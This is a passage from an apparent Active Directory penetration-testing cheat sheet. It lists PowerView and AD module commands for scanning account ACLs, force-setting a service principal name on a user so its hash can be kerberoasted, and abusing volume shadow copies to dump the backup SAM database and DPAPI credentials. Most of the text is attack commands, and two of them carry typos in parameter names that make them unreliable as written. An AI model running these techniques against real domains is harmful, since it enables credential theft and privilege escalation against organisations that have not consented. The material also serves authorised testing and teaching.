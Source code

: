 * PowerView:

Check for interesting permissions on accounts:

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
```

Check if the current user has already an SPN set:

```
Get-DomainUser -Identity <UserName> | select serviceprincipalname
```

Force set the SPN on the account:

```
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```

AD Module:

Check if the current user has already an SPN setted

```
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
```

Force set the SPN on the account:

```
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```

Finally use any tool from before to grab the hash and kerberoast it!

### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

List shadow copies using vssadmin (Needs Admnistrator Access)

```
vssadmin list shadows
```

List shadow copies using diskshadow

```
diskshadow list shadows all
```

Make a symlink to the shadow copy and access it

```
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1\) You can dump the backup SAM database and harvest credentials.

2\) Look for DPAPI stored creds and decrypt them.&#x20;

3\) Access backup sensitive files.
